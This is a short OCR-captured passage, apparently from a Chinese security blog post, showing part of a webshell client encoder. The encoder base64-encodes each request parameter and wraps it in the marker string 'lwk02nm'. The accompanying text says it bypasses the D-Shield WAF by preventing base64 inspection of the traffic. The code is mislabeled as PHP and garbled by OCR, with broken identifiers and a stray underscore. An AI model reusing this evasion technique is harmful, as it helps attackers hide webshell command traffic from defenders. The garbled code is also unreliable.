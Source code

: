 ```php
    if (_ _=== '_') { continue };
    ret[_] = Buffer.from(data[_]).toString('base64');
    ret[_] = 'lwk02nm' + ret[__];
    ret[] += 'lwk02nm';
  }
  ret[pwd] = Buffer.from(data['']).toString('base64');
  ret[pwd] = 'lwk02nm' + ret[pwd];
  ret[pwd] += 'lwk02nm';
  // 返回编码器处理后的 payload 数组
  return ret;
}_

```


顺利byapass D盾


![2020%2005%2021%2018%2014%2055.png](../post_images/ff28d4dfde5601803e9d8059e5c27fcb.png)


抓包查看发送的数据可看到所有的参数值都已经过编码器的编码，这样就能有效防止waf的base64解码了。


![2020%2005%2021%2018%2025%2027.png](../post_images/89a414995943ae64ffea8818e9d93239.png)
